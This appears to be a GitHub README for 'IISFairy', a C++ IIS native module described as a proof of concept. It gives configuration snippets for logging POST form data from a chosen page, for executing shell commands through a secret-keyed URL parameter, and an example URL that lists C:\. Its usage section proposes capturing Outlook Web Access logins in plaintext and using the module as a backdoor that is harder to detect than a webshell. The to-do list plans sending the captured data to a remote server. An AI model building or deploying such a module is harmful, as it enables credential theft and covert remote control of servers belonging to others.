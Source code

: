 # IISFairy
Simple PoC IIS Native module coded in c++, it's able to capture post request to a specific url and exucte commands through url request.

# Settings
Before compiling make sure to set below settings so it suits to your needs.

<b>Logging part :</b>

--> Page to save Post Request for :

PCWSTR getPostRequestfromthisUrl = L"yourmomistheiisfairy.html";

--> Trigger parameter in Post Request to start the log :

LPCSTR lpFound = strstr((LPCSTR)FormData, "username");

--> Local location to save logfile to :

std::wofstream outputFile("C:\\yourmomtheiisfairy.txt", std::ios::out | std::ios::app);

<b>CMD part :</b>

--> Parameter in get url request to activate cmd detection, a.k.a. password :

PCWSTR activateCMDtrigger = L"secretkey=iisfairy";

--> Parameter in get url request to get cmd from :

std::string paramValue = UrlDecode(ExtractQueryParamValue(urlBuffer, "sauce"));

--> Url request example to display C:\ directory :

http://localhost/yourmomistheiisfairy.html?secretkey=iisfairy&sauce=dir%20C:\

# Todo

--> Save captured post data handling ;

Use ping to send capatures post data back, use post url request to save data on remote server, 

--> Code a python client shell to interact as a "liveshell"

--> Tidy all my shit up.

--> Bang the IISFairy


# Attack scenarion or should i say usage scenario ;-)

--> Set capture url to /owa/owa to save users login credentials in plaintext.

--> Use it as a build in backdoor, it's way for flexible, less detecable then a webshell.

    If used right this backdoors the whole IIS server in compare to a webshell which is just a single file.

    You can execute the cmd's basically by calling url, no matter if page exists or not, etc.


